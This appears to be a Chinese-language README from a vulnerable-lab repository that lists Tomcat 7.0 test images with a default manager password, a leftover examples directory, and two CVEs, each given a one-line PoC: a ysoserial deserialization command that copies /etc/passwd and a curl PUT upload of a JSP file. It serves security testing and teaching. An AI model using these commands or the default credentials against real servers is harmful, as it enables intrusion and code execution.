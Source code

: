 ### 运维安全 - /manager/html 弱口令

测试镜像

* src/base/tomcat7.0/

后台口令

* tomcat:tomcat

### 运维安全 - /examples 目录未删除

测试镜像

* src/base/tomcat7.0/

### CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

测试镜像

* src/base/tomcat7.0/

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /tmp/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 10001 Groovy1 "cp /etc/passwd /tmp"
```

### CVE-2017-12615 - tomcat PUT 任意文件上传漏洞

测试镜像

* src/base/tomcat7.0/

参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

Poc

```
curl -vv -X PUT http://127.0.0.1/test.jsp/ -H 'Content-Type: text/plain' --data @test.jsp
```

